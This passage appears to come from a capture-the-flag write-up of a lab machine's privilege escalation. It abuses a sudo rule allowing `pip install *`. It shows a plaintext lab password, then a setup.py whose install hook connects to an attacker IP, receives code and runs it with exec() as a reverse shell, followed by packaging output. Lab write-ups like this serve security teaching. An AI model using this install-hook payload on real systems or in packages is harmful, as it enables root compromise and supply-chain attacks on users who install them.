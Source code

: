 ## Privilege escalation
Running `sudo -l` shows that we can install stuff with pip as sudo:
```bash
homer@canape:~$ sudo -l
sudo -l
[sudo] password for homer: 0B4jyA0xtytZi7esBNGp

Matching Defaults entries for homer on canape:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
```

From here, some research on the web lead to useful pages. A first one that provides an example of malicious python setup file with a reverse meterpreter shell, <https://www.ayrx.me/look-before-you-pip>. And some stackoverflow post to create a simple module that can be installed using pip, <https://stackoverflow.com/questions/15746675/how-to-write-a-python-module-package>.

The final setup is as follows, we customize the `setup.py` file as follows:
```python
import socket
import struct

from setuptools import setup
from setuptools.command.install import install


class TotallyInnocentClass(install):
    def run(self):
        s = socket.socket(2, 1)
        s.connect(("10.10.15.78", 8123))
        l = struct.unpack(">I", s.recv(4))[0]
        d = s.recv(4096)
        while len(d) != l:
            d += s.recv(4096)

        exec(d, {"s": s})

setup(
    name='escalate',
    version='0.0.1',
    cmdclass={
        "install": TotallyInnocentClass
    }
)
```

Once run this will use the already existing multi handler with the same python payload.

Then we need to package this as follows:
```bash
❯❯❯ python setup.py sdist
running sdist
running egg_info
creating escalate.egg-info
writing escalate.egg-info/PKG-INFO
writing top-level names to escalate.egg-info/top_level.txt
writing dependency_links to escalate.egg-info/dependency_links.txt
writing manifest file 'escalate.egg-info/SOURCES.txt'
reading manifest file 'escalate.egg-info/SOURCES.txt'
writing manifest file 'escalate.egg-info/SOURCES.txt'
warning: sdist: standard file not found: should have one of README, README.rst, README.txt, README.md
```